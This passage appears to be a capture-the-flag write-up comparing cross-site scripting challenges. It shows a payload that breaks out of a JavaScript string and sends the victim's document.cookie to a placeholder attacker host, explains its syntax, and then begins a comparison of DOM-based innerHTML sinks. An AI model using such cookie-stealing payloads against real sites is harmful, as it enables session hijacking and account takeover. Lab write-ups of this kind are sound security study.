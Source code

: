 * If you **break out of the quotes**, you can insert real JavaScript into the page
* No escaping means your input becomes **code**

### 🧪 Payload:

```javascript
";location='http://YOUR-IP:PORT/?cookie='+document.cookie;//
```

#### ✅ Syntax Explanation:

* `"` → closes the original string
* `;` → ends the JavaScript statement
* `location='...'` → sets the browser URL to your server, sending the cookie
* `' + document.cookie` → appends the actual cookie
* `//` → comments out the rest of the code so it doesn't break

So the final injected code becomes:

```html
<script>
    let auth = "";location='http://YOUR-IP:PORT/?cookie='+document.cookie;//";
</script>
```

Which is valid JavaScript and runs!

### 📌 Injection Vector:

* Cookie named `auth`, which the attacker sets or sends via a crafted link.

### ⚠️ Sink:

* Inside the `<script>` tag in the HTML page — your input becomes part of a JavaScript variable.

---

# 🧾 Final Comparison Writeup (`XSS_Comparison.md`)

````markdown
# 🛡️ XSS Challenge Comparison: xss-5 vs xss-6 vs xss-7

This document compares three Cross-Site Scripting (XSS) vulnerabilities from web challenges, focusing on **vulnerable code**, **injection vector**, **payload syntax**, and **execution context (sink)**.

---

## ✅ Challenge: xss-5 - DOM-Based XSS

- **Injection Vector:** `location.hash` (the part after `#` in the URL)
- **Vulnerable Code:**
  ```js
  document.getElementById("output").innerHTML = location.hash;
````
